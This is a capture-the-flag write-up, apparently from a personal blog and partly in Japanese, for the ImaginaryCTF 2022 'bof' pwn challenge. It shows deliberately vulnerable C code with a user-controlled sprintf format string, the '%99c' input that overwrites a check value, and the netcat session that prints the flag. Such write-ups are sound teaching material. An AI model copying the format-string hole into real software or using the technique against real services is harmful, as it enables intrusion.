 ```yaml
---
layout: post
title: "ImaginaryCTF 2022 - pwn: bof"
published : true
tags: CTF WriteUps pwn bof
---
```

## Description
Can you bof me?

## Attachments
https://imaginaryctf.org/r/naCsv#bof https://imaginaryctf.org/r/7ngbn#bof.c
nc bof.chal.imaginaryctf.org 1337

```c:bof.c
#include <stdio.h>
#include <stdlib.h>

struct string {
  char buf[64];
  int check;
};

char temp[1337];


int main() {
  struct string str;

  setvbuf(stdout,NULL,2,0);
  setvbuf(stdin,NULL,2,0);

  str.check = 0xdeadbeef;
  puts("Enter your string into my buffer:");
  fgets(temp, 5, stdin);
  sprintf(str.buf, temp);

  if (str.check != 0xdeadbeef) {
    system("cat flag.txt");
  }
}
```

## WriteUp
`fgets(temp, 5, stdin);`では、標準入力は5文字に制限されている。
しかしながら、`sprintf(str.buf, temp);`とあり、フォーマット文字列が使用できる。`%99c`を与えることで、99文字が書き込まれたこととなり、0xdeadbeefを上書きできる。

```sh
┌──(parrot㉿parrot)-[/ctf/ctf-event/ImaginaryCTF 2022/pwn/bof]
└─$ nc bof.chal.imaginaryctf.org 1337

== proof-of-work: disabled ==
Enter your string into my buffer:
%99c                                                                             ictf{form4t_strings_4re_c00l_051c94e1}
```